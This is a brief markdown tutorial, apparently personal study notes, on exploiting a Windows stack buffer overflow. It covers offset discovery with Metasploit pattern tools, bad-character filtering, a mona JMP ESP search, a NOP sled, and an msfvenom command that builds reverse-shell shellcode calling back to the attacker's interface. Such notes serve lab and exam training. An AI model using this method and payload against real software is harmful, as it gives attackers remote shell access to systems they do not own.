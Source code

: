 # Buffer Overflow

## Overflow One
1. Find Overflow point (offset)

* send alot of bytes over socket and see if the program crashes
* for the number of bytes sent run this script to determine the overflow point

* this metasploit script will give you a cyclically increasing list of bytes so you based off the register that broke you can 
determine on which byte did the overflow actually occur the offset

-l specifies how many bytes do you want it to be
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

* once this is exicuted find the EIP(Extended Instruction Pointer) and copy the bytes that are there

throw those bytes in here
 ```bash
 /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb
 ```
and it will give you the exact offset

2. Remove bad characters

* depending on how the program was written some chars will mess up and code that you try to exicute
* after the offset send all of the possible bytes and then look at them in register

use this to generate list of all bytes in python

```python
bytearray(range(1, 256))
```

* when analysing them in the register you can see when the bytes get out of order, this is how you know its a bad byte
* keep a list of all the bad bytes so you can remove them from the msfvenom payload you generate, or any other code that you want to run

3. Create msfvenom payload

| Option   |      Description      |
|----------|:-------------:|
| -b |  specify bad bytes |
| -f |    specify format   | py is for python
| -v | the variable you want it outputed as (optional)|

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=9000 EXITFUNC=thread -b "\x00\x07\x2d\x2e\xa0" -f py -v shellcode
```

4. Find Jump Point

* This mona cmd locates the jump point

```bash
!mona jmp -r esp -cpb "\x00"
```
* this goes after the offset, where you want to go after you overflow the buffer

5. Add nop sled

* after the jump you might not land exactly where you think you may so you want some nothing to be in between the jump and you shellcode
* add nop sled after jump point

6. Add payload (shellcode)

* add shell code to the end of the payload
* send it over and make the reverse connection
